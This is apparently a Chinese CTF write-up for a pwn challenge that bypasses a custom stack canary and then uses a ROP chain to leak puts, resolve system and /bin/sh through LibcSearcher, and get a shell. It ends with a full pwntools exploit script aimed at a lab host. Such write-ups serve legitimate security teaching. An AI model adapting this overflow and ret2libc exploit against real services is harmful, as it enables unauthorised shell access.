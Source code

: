 此题的解决流程包括：绕过canary+ROP获得shell

这道题直接ida发现`judge`函数无法反编译，所以使用`objdump -d my_cannary > asm.s`命令，直接看的汇编。可以发现整体的逻辑，在main函数中调用welcome函数生成随机数作为canary，而后调用test函数将随机数传入，存储在了`ebp-0x8`处，分配了一个空间备份了一下canary，将此空间的地址存储在ebp-0x10处，然后调用了read函数，这里存在溢出点。test函数的最后调用check函数，检查canary是否损坏。

在welcome函数中，可以发现一个gift变量，此为一个未初始化的全局变量。

### 绕过canary

将ebp-0x10处的地址改为gift全局变量的地址，ebp-0x8处覆盖为0。

### ROP获得shell

将puts函数的真实地址输出，再使用libcsearcher库，获取system函数地址和/bin/sh的地址。

exp.py

```python
from pwn import *
from LibcSearcher import *

context(arch="amd64", os="linux", log_level="debug")
io = process("./my_cannary")
io = remote("172.21.4.12", 10102)
elf = ELF("./my_cannary")

# f = open("inputfile", "wb")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
system_plt = elf.plt['system']

popret = 0x400a43
mainaddr = 0x400998

payload1 = 'a' * 0x30 + p64(0x6010C0) + p64(0x0) + p64(0x0) + p64(popret) + p64(puts_got) + p64(puts_plt) + p64(mainaddr)

io.recvuntil("begin\n")
io.sendline(payload1)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
# print(hex(puts_addr))

libc = LibcSearcher("puts", puts_addr)
libcbase = puts_addr - libc.dump("puts")
binsh_addr = libcbase + libc.dump("str_bin_sh")
system_addr = libcbase + libc.dump("system")

payload2 = 'a' * 0x30 + p64(0x6010C0) + p64(0x0) + p64(0x0) + p64(popret) + p64(binsh_addr) + p64(system_addr)

io.recvuntil("begin\n")
io.sendline(payload2)
io.interactive()
```



